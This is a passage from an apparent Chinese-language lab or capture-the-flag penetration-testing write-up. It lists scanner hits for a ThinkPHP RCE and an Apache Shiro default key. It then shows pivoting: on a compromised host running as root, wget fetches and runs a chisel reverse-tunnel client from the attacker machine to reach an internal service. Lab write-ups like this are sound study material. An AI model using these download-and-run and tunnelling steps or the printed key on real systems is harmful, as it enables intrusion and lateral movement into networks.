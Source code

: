 ## Net 192.168.100.0/24

```plaintext
Thinkphp - 192.168.100.2
[+] PocScan http://192.168.100.2 poc-yaml-thinkphp5023-method-rce poc1

Shiro - 192.168.100.3
[+] PocScan http://192.168.100.3:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
```

## Shiro 端口转发

由于需要访问内网的 Thinkphp 服务，就需要搭建代理隧道

```bash title="Kali"
┌──(randark ㉿ kali)-[~/tools/chisel-v1.9.1]
└─$ ./chisel_1.9.1_linux_amd64 server -p 1331 --reverse &
[1] 1846492
2024/07/25 11:18:01 server: Reverse tunnelling enabled
2024/07/25 11:18:01 server: Fingerprint CG5EKTNIsW4ByFzEmmK2qMxfuLVm6Cegnhee/wABfqk=
2024/07/25 11:18:01 server: Listening on http://0.0.0.0:1331
```

```bash title="Shiro"
(remote) root@31b77ed217da:/tmp# wget 192.168.200.129/chisel_1.9.1_linux_amd64
--2024-07-25 03:17:13--  http://192.168.200.129/chisel_1.9.1_linux_amd64
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8654848 (8.3M) [application/octet-stream]
Saving to: ‘chisel_1.9.1_linux_amd64’

chisel_1.9.1_linux_amd64                            100%[===================================================================================================================>]   8.25M  --.-KB/s    in 0.1s

2024-07-25 03:17:13 (78.8 MB/s) - ‘chisel_1.9.1_linux_amd64’ saved [8654848/8654848]

(remote) root@31b77ed217da:/tmp# chmod +x chisel_1.9.1_linux_amd64
(remote) root@31b77ed217da:/tmp# ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 R:0.0.0.0:10001:192.168.100.2:80 &
[1] 216
2024/07/25 03:20:24 client: Connecting to ws://192.168.200.129:1331
2024/07/25 03:20:24 client: Connected (Latency 1.096734ms)
```

在服务端上成功建立端口转发

```bash
2024/07/25 11:20:24 server: session#4: tun: proxy#R:10001=>192.168.100.2:80: Listening
```

## Thinkphp 攻击
